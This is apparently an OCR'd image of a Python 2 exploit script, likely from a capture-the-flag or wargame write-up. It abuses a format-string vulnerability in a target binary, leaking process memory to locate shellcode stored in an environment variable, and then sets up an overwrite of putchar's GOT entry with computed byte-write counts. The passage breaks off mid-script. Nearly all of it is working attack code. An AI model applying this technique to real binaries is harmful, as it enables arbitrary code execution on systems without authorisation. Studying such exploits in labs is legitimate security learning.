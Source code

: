 ```python
# Putting shellcode in environment
os.putenv("SHELLCODE", SHELLCODE)

def just(i):
    return str(i).rjust(3, "0")

offset = 0

# Looking for shellcode in memory process using format string
for padding in xrange(0, 4):
    for i in xrange(500):
        try:
            # We make the binary display the memory adresse, the '~' character, then the data at that address
            output = subprocess.check_output([TARGET, '%{0}$.8x~%{0}$s'.format(just(i)) + "." * padding])
            if "SHELLCODE=" in output:
                print(output)
                for line in output.split("\n"):
                    if "SHELLCODE=" in line:
                        # we extract the adress which is before the '~' character but after the prompt of the binary
                        offset = int(line.split("~")[0].split(": ")[1], 16) + 10
                        print "[*] Shellcode is at address", hex(offset), "in process memory"
                        break
        except subprocess.CalledProcessError:
            continue
    if offset:
        break

if not offset:
    print "[!] Can't find shellcode in process memory"
    sys.exit()

# Let's overwrite putchar in the GOT
putchar = 0x804a01c
addresses = struct.pack("I", putchar)
addresses += struct.pack("I", putchar + 1)
addresses += struct.pack("I", putchar + 2)
addresses += struct.pack("I", putchar + 3)

def split_addr(n):
    result = []
    n1 = n & 0xFF
    n2 = (n >> 8) & 0xFF
    n3 = (n >> 16) & 0xFF
    n4 = (n >> 24) & 0xFF
    while n1 <= 16:
        n1 += 0x100
    result.append(n1 - 16)
    while n2 <= n1:
        n2 += 0x100
    result.append(n2 - n1)
    while n3 <= n2:
        n3 += 0x100
    result.append(n3 - n2)
    while n4 <= n3:
        n4 += 0x100
    result.append(n4 - n3)
    return result

found = False
arg = ""
```